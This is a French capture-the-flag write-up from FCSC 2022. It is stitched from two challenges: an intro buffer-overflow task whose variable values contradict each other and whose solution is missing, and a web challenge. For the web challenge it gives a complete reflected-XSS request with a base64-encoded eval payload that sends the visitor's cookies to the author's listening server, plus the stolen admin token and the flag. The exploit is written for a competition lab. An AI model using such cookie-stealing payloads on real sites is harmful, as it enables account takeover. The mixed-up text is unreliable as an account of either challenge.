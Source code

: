 # Trop Facile
![Chall](https://github.com/Numb3rsProprety/FCSC2022/blob/main/Gare-Au-Gorille/gareaugorille.PNG?raw=true)


- Category: `Pwn`
- Points: `100` => `100`
- Difficulty: Intro
- Solves: `300`


**Description**

> Agent, suite à une mission périlleuse, vos collègues ont réussi à s'emparer d'un binaire s'exécutant sur une des machines de Hallebarde. Après une analyse poussée, ils ont réussi à extraire ce qui semblait être la meilleure version du code source. Vous êtes chargé de la dernière étape : essayez d'exploiter le binaire pour en tirer quelque chose.
>
>
>


**Attachments**

- `compromis.c, compromis`

### :book: Introduction

 Etant donne que c'etait mon tout premier chall de pwn c'etait plutot interessant et assez rapide a faire.

**Recon**
![home](![image](https://user-images.githubusercontent.com/64932654/167711362-83b80e2f-f083-4199-ac3a-598aba2f2f82.png))
- Le code source est relativement simple:
    - **Il y a une variable buf de 40bytes qui prend comme valeur un fgets de 49 bytes l'input**
    - **Une valeur check qui est egal a "0xcafebebe"**
    - **Une valeur key qui est egal a "0xdeadbeef"**
    - **On remarque que si key est egal a "0xcafebebe" et check a "0xdeadbeef" un shell se lance**
Il faut donc depasser sur les variables key et check pour ouvrir un shell.

![xss](https://github.com/Numb3rsProprety/FCSC2022/blob/main/Gare-Au-Gorille/xss.PNG?raw=true)

Ceci etant fait je cherche un moyen pour exploiter cette faille et je me met donc a examiner la fonction report du site.
En cliquant sur le boutton report le site me redirige vers ce lien:
` https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=meme_01.jpg `
Le parametre search est reutilise dans le report.
On peut donc utiliser ce parametre pour injecter un payload qui renverra le cookie de l'utilisateur executant le programme a notre serveur distant.
Si l'on envoie ce payload a l'administrateur il executera le code javascript et nous enverra son token et nous permettra de nous connecter avec son compte
### :arrows_counterclockwise: Exploitation

Avant tout j'ai setup un serveur d'ecoute pour pouvoir recevoir les cookies.
Je fait un payload qui envoie le token vers mon serveur
(cette data sheet m'a beaucoup aide: https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
notre payload request de fin ressemble donc a ca:
https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=eval(atob('ZG9jdW1lbnQubG9jYXRpb24gPSAnaHR0cDovL2xvY2FsaG9zdDo4MC8/Y29va2llPScgKyBkb2N1bWVudC5kb21haW4rJzogJytkb2N1bWVudC5jb29raWU='))

En attendant un peu on recoit le token sur notre serveur: O9Mv3sFaQD1UpQRLCXVOCzCi0dRbpz4Wy4kGPngZt36MZnR6xZpbHLQRWfDi6T45
On peut maintenant acceder au flag:
```
Congrats here is the flag

Flag: `FCSC{14b15680de4e305b89eaa2a07b137abf4e39b5773f39a4ea7155ca5387c6f59e}`


```

